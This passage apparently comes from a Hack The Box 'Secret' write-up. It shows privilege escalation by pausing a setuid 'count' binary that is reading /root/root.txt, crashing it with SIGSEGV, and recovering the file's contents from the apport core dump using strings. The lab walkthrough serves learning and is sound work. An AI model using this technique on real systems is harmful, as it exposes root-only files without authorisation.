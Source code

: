 
First of all need to have 2 terminals in the attack machine: <br>
1. Terminal for start the binary(count) program and read the root.txt<br>
2. Terminal for send the SIGSEGV to the proces and read the core dump file


Lets do the steps one by one:
<br>
1. Start the binary program enter for source file /root/root.txt and stop when the program asks for save results.
![](/assets/images/htb-writeup-secret/start_bin.PNG)

2. Cause a segmentation fault and read the core dump

```
# Cause a segmentation fault to the proces
$ ps aux | grep count
$ kill -SIGSEGV PID

# Read core dump root.txt
$ cd /var/crash
$ apport-unpack filename /destination
$ strings CoreDump
```

![](/assets/images/htb-writeup-secret/rootflag.PNG)

